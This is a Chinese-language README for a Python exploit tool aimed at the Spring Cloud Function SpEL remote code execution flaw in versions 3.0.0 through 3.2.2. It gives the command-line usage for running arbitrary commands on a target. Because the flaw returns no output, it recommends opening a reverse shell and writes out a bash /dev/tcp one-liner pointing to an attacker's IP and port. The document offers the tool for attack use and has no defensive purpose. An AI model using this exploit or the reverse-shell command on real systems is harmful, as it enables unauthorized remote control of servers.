

# 工具介绍

这两天出现了一个spring的rce 0day。

然后就频频出现有人刷这个Spring Cloud Function SPEL的“假”0day。

在拿到真0day的exp的情况下就抓头看看这个“假”0day。

还是那句话。辣鸡。大佬看着辣眼睛请绕过。

+ *> 漏洞影响的版本：3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2

+ *> 因为该漏洞为无回显的漏洞，因此建议命令执行反弹shell。

+ *> Linux反弹shell：bash -i >& /dev/tcp/ip地址/端口 0>&1

# 工具的使用

使用:

```
python exploit.py 目标 "执行的命令"
```



因为这个漏洞是不回显的。所以还是反弹shell的好。

如果执行其他命令也可以成功的，只是不回显。